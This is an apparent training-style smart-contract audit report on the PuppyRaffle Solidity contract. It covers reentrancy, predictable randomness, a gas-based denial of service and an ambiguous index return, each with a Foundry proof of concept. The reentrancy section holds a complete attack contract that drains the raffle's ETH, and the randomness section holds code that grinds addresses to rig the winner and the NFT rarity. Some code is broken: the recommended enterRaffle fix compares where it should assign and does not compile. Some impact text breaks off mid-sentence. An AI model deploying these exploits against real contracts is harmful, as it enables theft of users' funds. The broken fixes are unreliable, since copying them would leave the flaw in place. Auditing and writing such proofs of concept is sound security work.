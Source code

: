 ### [C-1] Reentrancy in refund function

**Description:** 
Rafund function does not implement reentrancy protection. Attacker can invoke refund function from specialy crafted, malicous contract. When refund will send eth to this contract execution is passed to it while state of victim contract is not changed. That gives oportunity to invoke refound once again and receive another eth. Doing it until any eth is left in victim contract will drain all assets from it.

<details>

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }

``` 
</details>

**Impact:** 
High

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC - test function</summary>

```javascript
    function testRefundReentrancy() public {

        // Stage 0: Deploy malicious contract
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        deal(playerOne, puppyRaffle.entranceFee() * 5);
        vm.prank(playerOne);
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        uint256 contractBalanceBefore = address(puppyRaffle).balance;

        // Stage 1: Deploy malicious contract
        vm.deal(attacker, entranceFee);
        uint256 attackContractBalanceBefore = address(attacker).balance;
        vm.startPrank(attacker);
        ReentrancyContract reentrancyContract = new ReentrancyContract{value: entranceFee}(address(puppyRaffle), attacker);


        // Stage 2: Invoke attack function
        reentrancyContract.attack();

        // Stage 3: Verify that the attacker has successfully withdrawn the prize
        uint256 attackContractBalanceAfter = address(attacker).balance;
        
        assertGt(attackContractBalanceAfter, attackContractBalanceBefore);
        assertLt(address(puppyRaffle).balance, entranceFee);
        vm.startPrank(attacker);

    }

```
</details>

<details>
<summary>PoC - Malicious Contract</summary>

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
import {Test, console} from "forge-std/Test.sol";

interface PuppyRaffle {
    function getActivePlayerIndex(address player) external view returns (uint256);
    function entranceFee() external view returns (uint256);
    function enter(uint256 index) external payable;
    function withdraw(uint256 amount) external;
    function enterRaffle(address[] memory newPlayers) external payable;
    function refund(uint256 playerIndex) external;
}

contract ReentrancyContract {
    address private immutable owner;
    PuppyRaffle private raffle;
    uint256 private entryFee;
    uint256 private attackerIndex;

    event AttackStarted();
    event EthReceived(uint256 amount);
    event ReentrancyStarted();
    event LootWithdrawn(uint256 amount);

    constructor(address raffleAddress, address ownerAddress) payable {
        // Set the contract owner
        owner = ownerAddress;

        // Initialize the PuppyRaffle contract
        raffle = PuppyRaffle(raffleAddress);

        // Create an array of attackers with the current contract address
        address[] memory attackers = new address[](1);
        attackers[0] = address(this);
        
        // Get the entrance fee from the PuppyRaffle contract
        entryFee = raffle.entranceFee();

        // Enter the raffle with the entrance fee
        raffle.enterRaffle{value: entryFee}(attackers);

        // Get the index of the attacker in the raffle
        attackerIndex = raffle.getActivePlayerIndex(address(this));

        // Log the attacker index and entry fee
        // console.log("Attacker index: %d", attackerIndex);
        // console.log("Entry fee: %d", entryFee);

        emit AttackStarted();
    }

    function attack() external {
        emit ReentrancyStarted();
        raffle.refund(attackerIndex);
    }

    receive() external payable {
        emit EthReceived(msg.value);
        if (address(raffle).balance >= entryFee) {
            raffle.refund(attackerIndex);
        }else{
            withdraw();
        }
    }

    function withdraw() internal {
        uint256 balance = address(this).balance;
        payable(owner).transfer(balance);
        emit LootWithdrawn(balance);
    }
}

```
</details>

**Recommended Mitigation:** 
Implement check interactions effect pattern or ReentrancyGuard mutex.


### [H-2] Insecure randomnes

**Description:** 
The `PuppyRaffle` contract uses insecure randomness. A malicious user can predict how many addresses they need to add due to the randomness implementation based on block data, sender address, and internal array size. All these parameters can be under the attacker's control or they can know their values, making it possible to manipulate the contract state to always win the lottery.



<summary>Vulnerable code 1</summary>

```javascript
uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length

```
</details>

Moreover, the value of the minted item is also based on predictable or controllable data:

<details>
<summary>Vulnerable code - 2</summary>

```javascript
uint256 rarity = uint256(keccak256(abi.encodePacked(msg.sender, block.difficulty))) % 100;
```
</details>
 A malicious user can generate a large number of accounts and pick the one which will generate a Legendary item.

It is worth mentioning that participants will always get the same item value for the same account.

In some scenarios, conducting a successful attack may require a lot of assets. However, a malicious user can reclaim them by chaining this exploit with reentrancy, making the whole exploitation profitable. They will get the invested amount back, plus ETH stolen from other participants, plus the prize for winning the lottery and a Legendary NFT.

**Impact:** 
Critical - Malicous user can

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC</summary>
NOTE: This PoC uses code from reentrancy previous chapter.

```javascript
   function testRandonNumberSelectWinner() public {

        // Stage 0: Start to record logs and start raffle than wait to raffle end
        // That imitates malicious user who monitors the logs and tries to exploit the system
        vm.recordLogs();
        // Users enter the raffle
        address[] memory players1 = new address[](3);
        players1[0] = playerOne;
        players1[1] = playerTwo;
        players1[2] = playerThree;
        
        puppyRaffle.enterRaffle{value: entranceFee * 3}(players1);

        address[] memory players2 = new address[](2);
        players2[0] = playerFour;
        players2[1] = address(5);

        puppyRaffle.enterRaffle{value: entranceFee * 2}(players2);

        // CHAIN 1: deploy reentrancy contract and add it later to the raffle 
        ReentrancyContract reentrancyContract = new ReentrancyContract{value: entranceFee}(address(puppyRaffle), attacker, 0);

        // DEBUG: check logs
        // Retrieve the recorded logs
        Vm.Log[] memory logs = vm.getRecordedLogs();
        uint256 playerCount = getPlayerCount( logs );

        // RAFFLE OVER
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        // -----------------

        // To arrays of legit players and one malicious reentrancy
        assertEq(playerCount, players1.length + players2.length + 1, "Player count does not match the expected value");

        // Stage 1: Count address that always will generate legendary item 
        address legendaryAddress = findLegendaryAddress();

        // Stage 2:Predict how many address add to  became a winner
        uint attackerIndex = playerCount; // The attacker is the last player and we counting from 0, I added it to make it clear

        
        // Winner prediction 
        uint256 playersNeeded = predictPlayersNeeded(attackerIndex, legendaryAddress);
        // Attacker gets founds for attack (flashLoan or anything)
        assertEq(address(attacker).balance, 0, "Attacker balance should be 0");
        deal(attacker, puppyRaffle.entranceFee() * playersNeeded);

        // Attacker is founding legendary account
        vm.prank(attacker);
        // We are delaing a lot of ETH as attack might be expensive
        payable(legendaryAddress).transfer(puppyRaffle.entranceFee() * playersNeeded);
        assertLe(puppyRaffle.entranceFee() * playersNeeded, address(legendaryAddress).balance, "Legendary address did not receive the funds");
        
        //deal(legendaryAddress, puppyRaffle.entranceFee() * playersNeeded);
        vm.startPrank(legendaryAddress);

        // Stage 3: Add the necessary number of players to the raffle
        uint256 playersNeededToBeAdd = playersNeeded - playerCount ;
        address[] memory maliciousAddresses = new address[](playersNeededToBeAdd);
        maliciousAddresses[0] = legendaryAddress;   
        
        // // Add the necessary number of players to the raffle
        for (uint256 p = 2; p < playersNeededToBeAdd; p++) {
            address playerAddress = address( uint160(p+100) );
            maliciousAddresses[p] = playerAddress;   
        }

        puppyRaffle.enterRaffle{value: entranceFee * (playersNeededToBeAdd)} (maliciousAddresses);
        vm.stopPrank();

        // CHAIN 2: reentrancy contract attack - attack must be stoped before needed prize will be drained
        vm.startPrank(attacker);
        uint256 totalAmountCollected = entranceFee * (playersNeeded);
        uint256 prizePool = (totalAmountCollected * 80) / 100 +1;
        reentrancyContract.setDrainEdge( prizePool + entranceFee);
        reentrancyContract.attack();
        vm.stopPrank();

        // Stage 4: Select the winner
        vm.prank(legendaryAddress);
        puppyRaffle.selectWinner();

        // Check if attack succeded
        // Legendary address should be the winner
        assertEq(puppyRaffle.previousWinner(), legendaryAddress);
        // Legendary address should have the legendary prize
        uint256 tokenId = puppyRaffle.tokenOfOwnerByIndex(legendaryAddress, 0); // We can assume that this is only attacker's token for test purpse 
        uint256 rarity = puppyRaffle.tokenIdToRarity(tokenId);// Take rarity of stolen token
        uint256 LEGENDARY_RARITY = puppyRaffle.LEGENDARY_RARITY();
        assertEq(rarity, LEGENDARY_RARITY, "Legendary address did not receive a legendary rarity token");
        // Transfer the token from the legendary address to the attacker
        vm.prank(legendaryAddress);
        puppyRaffle.transferFrom(legendaryAddress, attacker, tokenId);

        // Verify the transfer
        address newOwner = puppyRaffle.ownerOf(tokenId);
        assertEq(newOwner, attacker, "Token was not transferred to the attacker");
    }

    function predictPlayersNeeded(uint _attackerIndex, address _attacker) public view returns (uint256 _playerCount) {
        // As this is minium number of players there is no need to iterate from 0
        uint256 playerCount = 4;
        while (true) {
            uint256 winnerIndex = uint256(keccak256(abi.encodePacked(_attacker, block.timestamp,block.difficulty))) % (playerCount);
            if (winnerIndex == _attackerIndex) {
                return playerCount;
            }
            playerCount++;
        }
    }
    
    function getPlayerCount(Vm.Log[] memory logs) public pure returns (uint256) {
        uint256 playerCount = 0;
        for (uint256 j = 0; j < logs.length; j++) {
            if (logs[j].topics[0] == keccak256("RaffleEnter(address[])")) {
                // Decode the data to get the player addresses
                address[] memory newPlayers = abi.decode(logs[j].data, (address[]));
                playerCount += newPlayers.length;
            }
        }
        return playerCount;
}

    function findLegendaryAddress() public view returns (address _legendaryAddress) {
        uint256 rareThreshold = puppyRaffle.RARE_RARITY();
        uint256 commonThreshold = puppyRaffle.COMMON_RARITY();
        uint256 legendaryThreshold = rareThreshold + commonThreshold + 1;

        address legendaryAddress;
        uint256 rarity;
        uint256 i = 0;
        while (true) {
            rarity = uint256(keccak256(abi.encodePacked(legendaryAddress, block.difficulty))) % 100;
            if (rarity > legendaryThreshold) {
                break;
            }
            legendaryAddress = address(uint256(keccak256(abi.encodePacked(i, block.difficulty))));
            i++;
        }
        console.log("Legendary address found after ", i, " iterations");
        return legendaryAddress;
}
   
```
</details>

**Recommended Mitigation:** 
Use a Secure Randomness Source: Replace the insecure randomness source with a more secure and unpredictable one, such as Chainlink VRF (Verifiable Random Function).
Delay Randomness Calculation: Introduce a delay between the action and the randomness calculation to reduce predictability.
Combine Multiple Sources: Use multiple sources of randomness to make it harder to predict the outcome.


### [M-1] DoS attack in `PuppyRaffle::enterRafle'

**Description:** 
Protocol uses nested loop which sieze is under attacker control. Attacker can invoke function with large array to cause DoS while looping n^2 complex function increasing cost of entering to raffle. 

**Impact:** 
Every next entrance will be more expensive. If attacker  with add big array he will make unprofitable to join raffle fore anyone fue to lifting up gas price for executing `enterRaffle` function

**Proof of Concept:** (Proof of Code)
<details>
<summary>PoC</summary>

```javascript
    function testEnterRaffleDoS() public {
        uint256 largeArraySize = 10000; // Adjust this size based on gas limits and testing environment
        address[] memory largeArray = new address[](largeArraySize);
        for (uint256 i = 0; i < largeArraySize; i++) {
            largeArray[i] = address(uint160(i));
        }

        // Fund the attacker to cover entrance fees
        deal(attacker, puppyRaffle.entranceFee() * largeArraySize);
        vm.txGasPrice(1);
        uint256 gasStart = gasleft();
        // Try to enter the raffle with the large array

        vm.startPrank(attacker);
        try puppyRaffle.enterRaffle{value: puppyRaffle.entranceFee() * largeArraySize}(largeArray) {
            emit log("The DoS attack was successful, which is unexpected.");
        } catch {
            emit log("The DoS attack failed as expected due to high gas consumption.");
        }
        uint256 gasEnd = gasleft();
        uint256 gasUsed = (gasStart - gasEnd)*tx.gasprice;                
        console.log("AL:", gasUsed);
        vm.stopPrank();
    }
```
</details>


**Recommended Mitigation:** 
<details>
<summary>PoC</summary>

```javascript

// Check for duplicates only from the new players using mappin
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
            addressToRaffleId[newPlayers[i]] != raffleId;
        }

        for(uint256 i=0; i < newPlayers.length; i++>){
            require(addressToRaffleId[newPlayers[i]] != raffleId, "Duplicate");
        }
            emit RaffleEnter(newPlayers);
    }

```
</details>


### [M-#] Ambigous 0 value in function return

**Description:** 
If a player is at index 0 function will mislead user that he is not active because 0 is returned also for non-active users. 

<details>
<summary>PoC</summary>

```javascript
    function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
        return 0;
    }
```
</details>
**Impact:** 
If user 

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC</summary>
Added log function to contract 

```javascript
function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                console.log("Found player at index: %d", i);
                return i;
            }
        }
        console.log("Player not not active");
        return 0;
    }
```

```javascript
    function testGetActivePlayerIndexLogic() public {
        address[] memory players = new address[](2);
        players[0] = playerOne;
        players[1] = playerTwo;
        puppyRaffle.enterRaffle{value: entranceFee * 2}(players);

        assertEq(puppyRaffle.getActivePlayerIndex(playerOne), 0);
        assertEq(puppyRaffle.getActivePlayerIndex(playerTwo), 1);
    }
```


</details>

**Recommended Mitigation:** 
Revert if user is not active.
Revert if player is not active.
```javascript
    function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                console.log("Found player at index: %d", i);
                return i;
            }
        }
        // console.log("Player not not active");
        // return 0;
        revert("PuppyRaffle: Player not active");
    }
```

```javascript
   function testGetActivePlayerIndexLogic() public {
        address[] memory players = new address[](2);
        players[0] = playerOne;
        players[1] = playerTwo;
        puppyRaffle.enterRaffle{value: entranceFee * 2}(players);

        assertEq(puppyRaffle.getActivePlayerIndex(playerOne), 0);
        assertEq(puppyRaffle.getActivePlayerIndex(playerTwo), 1);
        vm.expectRevert("PuppyRaffle: Player not active");
        assertEq(puppyRaffle.getActivePlayerIndex(playerThree), 0);
    }
```




# TEMPLATE

### [S-#] Private Data stored in storeage on chain HIGH (ROOT CAUSE + IMPACT)

**Description:** 

**Impact:** 
High

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC</summary>

```javascript


```
</details>

**Recommended Mitigation:** 
Revert if player is not active.
```javascript

```

```javascript

    
```

